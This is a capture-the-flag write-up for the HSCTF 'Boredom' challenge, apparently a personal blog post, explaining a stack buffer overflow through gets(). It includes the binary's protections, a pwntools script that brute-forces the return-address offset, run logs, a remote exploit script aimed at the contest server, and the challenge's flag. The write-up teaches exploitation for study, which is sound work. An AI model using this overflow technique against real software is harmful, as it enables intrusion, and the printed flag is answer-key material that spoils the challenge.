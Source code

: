 ```yaml
---
layout: single
author: andrea
tags: ctf
---
```

_Boredom_ is the the first ctf of binary exploitation. It provides a source file **boredom.c** and a binary file **boredom**.

First, I analyze the source code to find some exploitable code. Indeed, the main call the unsafe function <code class="cpp hljs inline"> gets </code>:

```cpp
int main() {
	char toDo[200];
	setup();

	printf("Give me something to do: ");
	gets(toDo);
	puts("Ehhhhh, maybe later.");
	return 0;
}
```

`gets` saves the input in the char array `toDo` and it can overwrite the return instruction pointer in the stack if the user writes more than 200 characters. The other function in **boredom.c** tells us where the flag is located:

```cpp
void flag() {
	FILE *f = fopen("flag.txt", "r");
	char buf[50];
	if (f == NULL) {
		puts("You're running this locally or I can't access the flag file for some reason.");
		puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
		exit(1);
	}
	fgets(buf, 50, f);
	printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n", buf);
	puts("Now go away.");
	exit(42);
}
```

We just need to find the address of function <code class="cpp hljs inline">flag</code> and overwrite it in the return instruction pointer in the stack. However, even though this is the main concept behind the buffer overflow exploit, there are a lot of details to make it real.

## Architecture characteristics

Before writing any exploit we have to understand in which architecture the **boredom** binary is running. The `readelf -h boredom` command answers to all our questions:

```
	ELF Header:
	Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
	Class:                             ELF64
	Data:                              2's complement, little endian
	Version:                           1 (current)
	OS/ABI:                            UNIX - System V
	ABI Version:                       0
	Type:                              EXEC (Executable file)
	Machine:                           Advanced Micro Devices X86-64
```

Boom! It is 64bit architecture and little-endian (least significant byte are stored in the smallest address, e.g. higher in the stack).

Now we use our swiss army knife, aka pwntools, to get some other interesting features of this binary:

```python
#!/usr/bin/python3
from pwn import &#42;
e = ELF('./boredom')
print(e)
```


the output is:

```cpp
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

- _amd-64-little_ tells what we already know;
- _Full RELRO_: the Global Offset Table (GOT) is read-only, that is we can't change the function addresses.
- _No canary found_: the stack doesn't protect the return pointer if we try to overwrite it. This is the vulnerability we are exploiting.
- _NO PIE_: NO Position-Independent Executable, so the code can't run in any address but in those addresses specified by the binary file. In a _PIE_ file there are offsets instead of addresses.

## Exploit

Knowing all these characteristics of the the binary, we remain to guess the offset between the buffer ```toDo``` and the return instruction pointer in the stack. So when the program asks for the input we'll write 200 chars + offset + address of ```flag()```.

```python
#!/usr/bin/python3
from pwn import &#42;
e = ELF('./boredom')
flag_addr = p64(e.symbols['flag'])

for i in range(201,220):
	print('i: ' + str(i))
	p = process('./boredom')
	payload = bytes("a"*i,'utf-8') + flag_addr
	p.sendlineafter(': ', payload)
	res = p.recvall(timeout=1)
	if "flag" in res.decode():
		print(res.decode())
		break;
```

where `flag_addr = \xd5\x11\x40\x00\x00\x00\x00\x00` is 8 byte long.

When the binary returns _You're running this locally or I can't access the flag file for some reason._ we have found the right offset.

**In my case** the offset is 16 bytes:

```cpp
...
i: 215
[+] Starting local process './boredom': pid 203
[+] Receiving all data: Done (21B)
[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 203)
i: 216
[+] Starting local process './boredom': pid 206
[+] Receiving all data: Done (162B)
[*] Process './boredom' stopped with exit code 1 (pid 206)
Ehhhhh, maybe later.
You're running this locally or I can't access the flag file for some reason.
If this occurs on the remote, ping @PMP#5728 on discord server.

i: 217
[+] Starting local process './boredom': pid 209
[+] Receiving all data: Done (21B)
[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 209)
...
```

We exploited the buffer overflow locally now it's time to make it working remotely:

```python
#!/usr/bin/python3
from pwn import *

p = remote('pwn.hsctf.com', 5002)

flag_addr = 0x00000000004011d5
print( bytes('a'*(208),'utf-8')+p64(flag_addr))
p.sendlineafter(': ', bytes('a'*(208),'utf-8')+p64(flag_addr))

p.interactive()
```

Unfortunately, the offset that we use to pwn the binary online is different from that we used locally. The offset is just 8 bytes instead of 16 bytes.

Eventually, the flag is:

```
flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
```

## Resources

- [https://ctf.hsctf.com/](https://ctf.hsctf.com/)
- [Relocation Read-Only (RELRO)](https://ctf101.org/binary-exploitation/relocation-read-only/)
